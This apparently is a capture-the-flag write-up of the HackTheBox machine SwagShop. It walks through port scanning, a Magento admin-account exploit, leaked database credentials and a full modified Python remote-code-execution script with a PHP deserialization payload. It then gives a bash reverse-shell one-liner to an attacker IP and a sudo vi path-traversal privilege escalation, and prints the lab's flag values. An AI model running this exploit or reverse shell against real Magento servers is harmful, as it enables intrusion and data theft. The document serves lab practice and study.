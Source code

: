 ```yaml
---
title: HackTheBox - SwagShop
date: 2020-12-26 18:10:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Magento, e-commerce, SQLi, chaining exploits, fixing exploit, linpeas, sudo weak configuration, vi, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/SwagShop.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN SwagShop-full-port-scan.txt 10.10.10.140
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache 2.4.18 (port 80) | Magento (open source e-commerce)

[http://10.10.10.140/](http://10.10.10.140/) seems to be an online shop with a **Magento** backend:

![shop](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/shop.png)

2014 is the last time the website was edited?! 

By navigating through the website, there is something strange that we can notice, directories are prefixed with `/index.php/`. This is probably due to **apache mod-rewrite misconfiguration**:

![strange](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/strange.png)

Thereby, I ran `dirb`:

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/dirb.png)

And we found an admin panel on [http://10.10.10.140/index.php/admin](http://10.10.10.140/index.php/admin):

![admin-panel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/admin-panel.png)

#### exploit creates admin account  

Despite the fact that I don't know the version yet, I've researched some exploits but either they are outdated _(if we refer to the 2014 copyright)_, or they require authentication credentials, or they target specific magento plugins.

Except for this one [Magento eCommerce - Remote Code Execution](https://www.exploit-db.com/exploits/37977). I just changed line 5 and 13 because of the `/index.php` prefix:

![rce](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/rce.png)

An it worked:

![worked](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/worked.png)

I logged in and I didn't understand why I was redirected to this page first:

![png](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/png.png)

Then I changed the URL to [http://10.10.10.140/index.php/admin](http://10.10.10.140/index.php/admin) and I was redirected to the Magento's admin dashboard:

![magento-admin-panel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magento-admin-panel.png)

#### `magescan`

At this point, I looked for _"magento scanners"_ and I found this [one](https://github.com/steverobbins/magescan) (`magescan`):

![magescan-2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magescan-2.png)

![magescan-1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magescan-1.png)

If we take a look at this URL that the scanner found &rarr; [http://10.10.10.140/app/etc/local.xml](http://10.10.10.140/app/etc/local.xml), we get mysql credentials in clear text:

![credentials](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/creds.png)

#### exploit remote code execution

Now that we know the version, we can take a look at the exploit which requires authentication: [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/37811)

We fill these lines with the credentials created by the previous exploit, and the install date we saw on [http://10.10.10.140/app/etc/local.xml](http://10.10.10.140/app/etc/local.xml):

![exploit 2 args](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-help.png)

![config exploit 2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-config.png)

Then I encountered this error:

![error 2 exploit 2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-error-2.png)

I had to change line containing:

```python
request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
```

into:

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/2y.png)

Exploit after updates:

```python
from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)

tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
```

Finally the exploit worked:

![exploit worked](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/success.png)

## Reverse shell (`www-data`)

```bash
$ python 37811.py http://10.10.10.140/index.php/admin/ "bash -c 'bash -i >&/dev/tcp/10.10.14.7/4444 0>&1'"
```

![sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/sh.png)

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/reverse-shell.png)

Now that we have an acces to the machine's shell, let's do enumeration with **linpeas.sh**:

![sudo -l](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/linpeas.png)

Thanks to this misconfiguration with the wildcard we can read both user and root flags, using `vi` as follows:

## User (`haris`)

```bash
$ sudo /usr/bin/vi /var/www/html/../../../home/haris/user.txt
```

![harris](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/haris.png)

- flag: `a448877277e82f05e5ddf9f90aefbac8`

## Root

```bash
$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/root.png)

- flag: `c2b087d66e14a652a3b86a130ac56721`
___

## Useful links

- [CVE-2015-1397](https://nvd.nist.gov/vuln/detail/CVE-2015-1397)
- [Magento eCommerce - Remote Code Execution](https://www.exploit-db.com/exploits/37977)
- [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/37811)